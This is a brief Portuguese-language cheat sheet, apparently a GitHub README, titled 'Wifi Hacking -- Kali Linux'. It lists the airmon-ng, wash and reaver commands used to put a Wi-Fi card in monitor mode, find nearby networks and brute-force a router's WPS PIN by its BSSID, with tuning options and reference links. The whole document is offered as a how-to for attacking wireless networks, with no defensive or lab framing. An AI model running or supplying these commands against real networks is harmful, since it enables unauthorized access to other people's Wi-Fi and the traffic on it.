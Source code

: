 # Wifi Hacking -- Kali Linux
### (by Walysson dos Reis)
---------------------
### WPS Cracking com Reaver
* `airmon-ng check kill` - Interrompe processos que estejam utilizando a placa wifi
* `airmon-ng start wlan0` - Coloca a interface wifi wlan0 em modo de monitoramento
* `wash -i wlan0mon` - Ativa descoberta de redes disponivel na interface wlan0mon
* `reaver -i mon0 -c 1 -b 00:00:00:00:00:00 -vv` - Inicie o reaver inserindo interface, canal e bssid da rede alvo
* `reaver -i mon0 -c 1 -b 00:00:00:00:00:00  -vv -L -N -d 15 -T .5 -r 3:15` - Reavear com parâmetros de intervalo opcional


--------
## Referências
https://outpost24.com/blog/wps-cracking-with-reaver  
https://cienciacomputacao.com.br/tutorial/como-hackear-wi-fi-wpa2-psk-com-kali-linux/  

